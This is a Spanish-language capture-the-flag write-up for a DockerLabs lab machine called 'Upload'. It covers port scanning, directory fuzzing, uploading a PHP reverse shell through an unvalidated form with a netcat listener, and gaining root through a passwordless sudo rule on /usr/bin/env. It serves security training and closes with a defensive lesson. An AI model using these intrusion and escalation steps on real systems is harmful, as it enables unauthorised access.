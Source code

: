 # 📘 Informe Técnico - Máquina: *Upload*

* **Nivel:** Fácil
* **Propósito:** Evaluar la capacidad para identificar y explotar vulnerabilidades de subida de archivos.
* **Objetivo:** Obtener acceso remoto mediante una shell inversa y escalar privilegios a root.

---

![Logo](Imágenes/2025-05-15_15-37.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip upload.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh Upload.tar
```

![Ping a la máquina](Imágenes/Capturas.png)


Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```

![Nmap Puertos](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap detallado](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80 172.17.0.3
```

![Nmap detallado](Imágenes/Capturas_3.png)

### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

---

## 🌐 Análisis Web

Al acceder a la web en el puerto 80, observamos una interfaz simple con una opción de subida de archivos.

![Web](Imágenes/Capturas_4.png)

Realizamos un fuzzing de directorios para detectar rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

### 🔍 Directorios encontrados:

* `/uploads`
* `/index.html`
* `/upload.php`

![Pagina](Imágenes/Capturas_5.png)

Al ingresar a `/uploads`, observamos los archivos que han sido subidos previamente.

---

## ⚙️ Explotación - WebShell

En base al comportamiento de la aplicación, generamos una **PHP Reverse Shell** (`php-reverse-shell.php`). Este archivo se incluye en el repositorio como `exploit`.

Luego, iniciamos el listener en nuestra máquina atacante:

```bash
sudo nc -lvnp 443
```

Desde la interfaz de subida (`/upload.php`), cargamos nuestro archivo malicioso `.php`.

![subida](Imágenes/Capturas_8.png)

Posteriormente, al acceder al archivo desde la ruta `/uploads`, se ejecuta el payload y obtenemos una **shell inversa** como el usuario `www-data`.

![Escucha](Imágenes/Capturas_7.png)

---

## ⚡ Escalada de Privilegios

Una vez dentro, ejecutamos el siguiente comando para verificar los privilegios sudo:

```bash
sudo -l
```

La salida indica que el usuario `www-data` puede ejecutar `/usr/bin/env` como root **sin contraseña**:

```
(root) NOPASSWD: /usr/bin/env
```

![php](Imágenes/Capturas_9.png)

Aprovechamos esta configuración para escalar privilegios ejecutando una shell como root:

```bash
sudo /usr/bin/env /bin/sh
```

¡Y obtenemos acceso como **root**!

![root](Imágenes/Capturas_10.png)

---

## 🏁 Conclusión

La máquina *Upload* demuestra una vulnerabilidad común: **falta de validación en la subida de archivos**, lo cual permite la ejecución remota de comandos. La escalada de privilegios es posible gracias a una configuración de `sudo` mal gestionada que permite el uso de `env` como root sin contraseña.

> 💡 **Lección clave:** Nunca se debe permitir la ejecución de binarios como `env`, `python`, `perl`, etc., mediante sudo sin contraseña, especialmente desde usuarios de bajo privilegio como `www-data`.

---
